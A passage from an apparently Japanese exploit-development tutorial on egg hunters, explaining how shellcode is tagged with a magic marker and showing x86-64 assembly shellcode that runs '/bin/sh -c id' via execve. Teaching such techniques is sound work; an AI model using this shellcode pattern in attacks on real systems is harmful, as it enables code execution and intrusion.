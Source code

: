 ## シェルコードの探索
Egg Hunterの本体は、シェルコードを見つける部分です。一般的には実行したいシェルコードの先頭にマジックナンバーを付けておき、それを探すコードを書きます。
今回は次のような簡単なシェルコードを呼び出すことを考えます。
```
_start:
  dq 0xdeadbeefcafebabe         ; marker

  ; execve(arg0, args, NULL)
  xor edx, edx
  push rdx
  lea rdi, [rel arg2]
  push rdi
  lea rdi, [rel arg1]
  push rdi
  lea rdi, [rel arg0]
  push rdi
  mov rsi, rsp
  mov eax, 59
  syscall

arg2:
  db "id", 0
arg1:
  db "-c", 0
arg0:
  db "/bin/sh", 0
```
マジックナンバーとして0xdeadbeefcafebabeを使用しました。

シェルコードを探索するには、まず起点となるアドレスが必要です。シェルコードが呼び出されたとき、レジスタの状態は次のようになっています。

<center>
  <img src="img/egg_state.png" alt="Egg Hunter呼び出し時のレジスタの状態" style="width:520px;">
</center>
